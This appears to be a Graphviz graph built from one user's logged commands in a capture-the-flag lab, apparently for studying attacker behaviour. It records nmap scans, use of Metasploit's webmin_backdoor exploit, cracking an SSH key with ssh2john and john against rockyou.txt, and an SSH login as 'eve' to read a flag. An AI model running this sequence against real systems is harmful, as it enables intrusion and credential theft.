 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="nmap -A -p 1-65536 A0 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 V0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 V0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 M6 "]
	11 [label="set LHOST 10.1.135.83 V6 "]
	12 [label="nmap -A 10.1.17.4 A0 A1 "]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run V8 "]
	29 [label="run V8 "]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 M16 "]
	40 [label="chmod 600 key M15 "]
	41 [label="ssh -i key eve@10.1.17.4 V16 "]
	42 [label="ssh -i key eve@10.1.17.4 V16 "]
	43 [label="ls A10 "]
	45 [label="ls A10 "]
	46 [label="cat flag.txt M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 29 [constraint=false]
	29 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
